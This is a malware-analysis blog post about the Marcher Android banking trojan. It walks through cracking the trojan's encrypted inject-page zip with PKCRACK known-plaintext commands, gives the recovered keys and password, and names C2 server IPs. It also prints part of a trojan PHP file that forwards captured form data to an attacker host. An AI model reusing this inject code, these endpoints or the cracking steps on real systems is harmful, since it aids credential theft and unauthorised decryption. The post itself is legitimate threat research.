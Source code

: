 ```yaml
---
layout: post
title:  "Cracking the Marcher APK zip"
date:   2018-04-02 10:31:12 -0600
categories: malware, android
---
```


  

# Marcher APK

While searching around for new Android malware I stumpled upon a report related to Marcher, an android banking trojan, by Nokia[[1]]. The report mentions that the trojan downloads a zip file but that they couldn't find the password. As a TL:DR on the research into the APK itself and how it uses this zip file well it's basically a collection of inject sites that are each associated with banking sites to be used by the trojan. Ofcourse since it uses the files the password is in the APK, somewhere. Since the malware does use some obfuscation techniques and this isn't a post into how to reverse obfuscated APKs(this time). I'm using this as a good example of how you can use a technique I honestly don't get a chance to mess with too much and that's attacking zip files using known plain text attacks.


# Cracking the Marchers ZIP

Some quick pivoting and googling around leads to a few zip files from a server associated with this malware, we'll start with one related zip to the one from the Nokia report(archiveau1.zip). This zip comes from a server found by our pivoting on existing research, while the files on it are encrypted the structure is the same as the server from which the zip file came from. If you go to the bottom of the Nokia report you'll see references to a webfake system:

```json
{
"arc": "archive/injek-52.html",
"li": "archive/li/ic_pp.png",
"si": "ic_stat_ic_notification_pp",
"to": "com.paypal.android.p2pmobile",
"type": "payment",
"web": http://94.130.97.18/injek-52.html
}
```

Going to the /arc/ folder on this 94.130.97.18 server will show three zip files that are all encrypted with the same password.

![Marcher Webfake Server]({{ site.url }}/assets/marcher_zip/server_open_dir.png "Open directory on Marcher server")


For attacking the zip file we will use a toolset built based on the research from Eli Biham and Paul Kocher[[3]], the toolset named PKCRACK[[2]]. Similar instructions to what we'll be doing below can be found in a blog post by securiteam[[4]].

Using the structure of the files in the encrypted zip we can pull down a cleartext version of one of the files from an active C2, in this case spinner.gif is a decently large file but there are also publicly available jquery libraries in the zip as well. First we add the clear text version of the file to a zip:

```
# 7z a blah.zip spinner.gif
```

Then we remove the original and extract the file from the zip using the extract utility from PKCRACK, renaming this extracted file as spinnerPlain.gif

```
# rm spinner.gif
# ./extract -p blah.zip spinner.gif
# mv spinner.gif spinnerPlain.gif 
```

Now we just extract the same file from the encrypted archive and rename it as spinnerCrypt.gif

```
# ./extract -p archiveau1.zip spinner.gif
# mv spinner.gif spinnerCrypt.gif
```

The file sizes should be similar to below where the encrypted version of the file is 12 bytes larger than the plain text version.

```
# ls -l spinner*
-rw-r--r-- 1 root root 126054 Mar 31 19:08 spinnerCrypt.gif
-rw-r--r-- 1 root root 126042 Mar 31 19:06 spinnerPlain.gif
```

Let's run the program responsible for finding the three key values that we'll need to decrypt the rest of the zip file, 

```
# ./pkcrack -c spinnerCrypt.gif -p spinnerPlain.gif
Files read. Starting stage 1 on Sat Mar 31 19:09:57 2018
Generating 1st generation of possible key2_126053 values...done.
Found 4194304 possible key2-values.
Now we're trying to reduce these...
Lowest number: 965 values at offset 107292
Lowest number: 963 values at offset 107289
Lowest number: 875 values at offset 107286
Lowest number: 868 values at offset 107277
<..snip..>
Lowest number: 112 values at offset 26668
Lowest number: 106 values at offset 26666
Lowest number: 104 values at offset 26665
Lowest number: 85 values at offset 26629
Done. Left with 85 possible Values. bestOffset is 26629.
Stage 1 completed. Starting stage 2 on Sat Mar 31 19:10:27 2018
Ta-daaaaa! key0=a604ea45, key1=b50715df, key2=6b6949b0
Probabilistic test succeeded for 99429 bytes.
Ta-daaaaa! key0=a604ea45, key1=b50715df, key2=6b6949b0
Probabilistic test succeeded for 99429 bytes.
```

At this point we have the three keys we need to be able to run zipdecrypt and hopefully generate a non password protected version of the archive.

```
# ./zipdecrypt a604ea45 b50715df 6b6949b0 archiveau1.zip archiveau1_d.zip
Decrypting .media (c9866a1b403ccf8df2620000)... OK!
Decrypting archive/commid/.DS_Store (030e28173d8cb7afb7f188b6)... OK!
Decrypting archive/commid/commid.html (856563164149186129fc70bc)... OK!
Decrypting archive/commid/comm/01.php (897d28fa5c41ef3c5d683690)... OK!
Decrypting archive/commid/comm/css/injek-1.css (06e8a812db100fd102ab8264)... OK!
Decrypting archive/commid/comm/css/ocra_medium.ttf (f4f9eea0fe2069be901b812e)... OK!
Decrypting archive/commid/comm/css/reset.css (b990b1e58a9fa4ed2e458273)... OK!
Decrypting archive/commid/comm/go.php (3f5f96b8dd62f7304470a585)... OK!
Decrypting archive/commid/comm/images/injek-1/client_number_icon.png (18c9805b6f39a4cd58a2a8d0)... OK!
Decrypting archive/commid/comm/images/injek-1/dots.png (7569b443b373df5c67c0fee7)... OK!
Decrypting archive/commid/comm/images/injek-1/ic_lock.png (380ec17cf1d8f4c0d075e8d2)... OK!
Decrypting archive/commid/comm/images/injek-1/logo.png (d0ccebf316cfe496fe76ae51)... OK!
Decrypting archive/commid/comm/images/injek-1/men.png (e99c5d15aaf200b183c65411)... OK!
Decrypting archive/commid/comm/images/injek-1/move.png (22413a51aa1580988f44c737)... OK!
Decrypting archive/commid/comm/images/injek-1/password_icon.png (1eddce4d9078aff11c53d1f7)... OK!
Decrypting archive/commid/comm/images/injek-1/spinner.gif (d3b08aa62abf7f75e4ceff0f)... OK!
Decrypting archive/commid/comm/images/injek-1/strelka.png (31d9cab5589cfc8aa9011627)... OK!
Decrypting archive/commid/comm/images/injek-1/transfer.png (6997338fbf5979d9c586e039)... OK!
Decrypting archive/commid/comm/js/jquery-2.1.4.min.js (42c217f11c547bcfe6c3b3f1)... OK!
Decrypting archive/commid/comm/js/jquery.maskedinput.js (e77d6200cb67d721791b6caf)... OK!
Decrypting archive/commid/css/injek-1.css (0761ccb1f6aa3de919194d05)... OK!
Decrypting archive/commid/css/ocra_medium.ttf (95453cac9b757d99e483812e)... OK!
Decrypting archive/commid/css/reset.css (f062a837098feb84155f8273)... OK!
<..snip..>
Decrypting archive/li/ic_us_b_skype.png (733c256d1407357a3ee42337)... OK!
Decrypting archive/li/ic_us_b_snapchat.png (a3e30495219504c3ac65ff32)... OK!
Decrypting archive/li/ic_us_b_tencent.png (571cca0fcf27c7319627ffee)... OK!
Decrypting archive/li/ic_us_b_viber.png (7f4f981560280a2649e43a56)... OK!
Decrypting archive/li/ic_us_b_walmart.png (2f29ceb2045df76547bb63de)... OK!
Decrypting archive/li/ic_us_b_whatsapp.png (c97a0bd52dc4be2ca7ecad49)... OK!
Decrypting archive/li/ic_west.png (0cf2ac45f1699105731225de)... OK!
Decrypting archive/li/ic_westpac.png (75909050406477ebced9e5fe)... OK!
Decrypting archive/li/ic_wu.png (1a47c95668fb14f92dd604c6)... OK!
Decrypting archive/new-inj-0.css (7ba1c85a13e742b0c16f2925)... OK!
Decrypting archive/new-inj-0.html (bb4c0778d20d684e9c8319b4)... OK!
Decrypting archive/new-inj-1.html (810dded85b9ea60fd59b642c)... OK!
Decrypting archive/new-inj-2.html (3f4dc01e387e85e7f0be4a1a)... OK!
Decrypting archive/new-inj-23.html (c9658e1a8587e48d2e6c9f22)... OK!
Decrypting archive/new-inj-24.html (b965647768986401cb5d6aab)... OK!
Decrypting archive/new-inj-25.html (3aa1c63011806298e5997bdf)... OK!
Decrypting archive/new-inj-26.html (f4961ed2aa85e7d1b70afc14)... OK!
Decrypting archive/new-inj-27.html (1dc5b4408a120ed2a0ba5233)... OK!
Decrypting archive/new-inj-28.html (e1efb5c74a83c46b8173cb8d)... OK!
Decrypting archive/new-inj-29.html (252f03f3d2400a3ade1f2a96)... OK!
Decrypting archive/preloader.png (7d1f099e100e58436dc01e7f)... OK!
```

Time to test it out:

```
# mkdir test
# cp archiveau1_d.zip ./test/
# cd test
# ls
archiveau1_d.zip
# 7z x archiveau1_d.zip 
```

It appears our zip extracted properly but is the data still good? Let's check one of the php files from the server to verify.

```
# cd archive

# head commid/comm/go.php
<?php

    $url = "http://88.99.32.31/111/form.php";
    $successUrl = "http://google.com";
   
    function mysql_escape_mimic($inp) {
        if(is_array($inp))
            return array_map(__METHOD__, $inp);

        if(!empty($inp) && is_string($inp)) { 
```

Another way to go about this is to key in on the code in the APK that appears to reference the downloaded archive folder, meaning the password should be somewhere in the APK. You can dump the strings from the APK and then setup a script to try each one in a brute force manner. I'll save you some time though for the zip files from our server the password is "b5jXh37gxgHBrZhQ4j3D".

Zip samples:
https://beta.virusbay.io/sample/browse/62d1595a49c5ff49cd5d00c9cadd3c87  
https://beta.virusbay.io/sample/browse/4e16daa0a9b8d27325a8b99132b8f29c  
https://beta.virusbay.io/sample/browse/e7f707c748c2c2876233cc84fe722c25  
  

References:  
 1. https://onestore.nokia.com/asset/201799/Nokia_Anatomy_of_an_Android_Banking_Trojan_Security_Note_Document_EN.pdf  
 2. https://www.unix-ag.uni-kl.de/~conrad/krypto/pkcrack.html  
 3. https://pdfs.semanticscholar.org/18dd/4b4d646b79b473448604254fc605c58eae7c.pdf  
 4. http://www.securiteam.com/tools/5NP0C009PU.html  
 5. https://clientsidedetection.com/marcher.html  
 6. https://www.proofpoint.com/us/threat-insight/post/credential-phishing-and-android-banking-trojan-combine-austrian-mobile-attacks  
 

 


[1]:https://onestore.nokia.com/asset/201799/Nokia_Anatomy_of_an_Android_Banking_Trojan_Security_Note_Document_EN.pdf  
[2]:https://www.unix-ag.uni-kl.de/~conrad/krypto/pkcrack.html  
[3]:https://pdfs.semanticscholar.org/18dd/4b4d646b79b473448604254fc605c58eae7c.pdf  
[4]:http://www.securiteam.com/tools/5NP0C009PU.html  
[5]:https://clientsidedetection.com/marcher.html  
[6]:https://www.proofpoint.com/us/threat-insight/post/credential-phishing-and-android-banking-trojan-combine-austrian-mobile-attacks  



